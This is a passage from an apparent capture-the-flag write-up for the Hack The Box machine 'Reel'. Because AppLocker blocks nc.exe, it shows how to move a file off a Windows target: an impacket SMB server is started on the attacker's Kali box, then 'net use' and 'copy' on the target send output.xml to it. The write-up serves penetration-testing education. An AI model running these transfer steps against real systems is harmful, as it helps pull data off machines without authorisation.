 Unfortunately, we cannot use nc.exe to trasfer the output since running nc.exe is also blocked by the applocker:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-34.png)

Since we can't use nc.exe, let's try with smbserver.

We wil frist start a SMB server on our Kali machine:

`impacket-smbserver share .`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-22.png)

On the target machine, let's connect to the created SMB server:

`net use * \\10.10.14.36\share`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-35.png)

Through the command `copy output.xml Y:` on target machine, we can copy the Applocker output to our local Kali machine:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-36.png)

Let's take a look at it using Firefox:

`firefox output.xml`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-39.png)
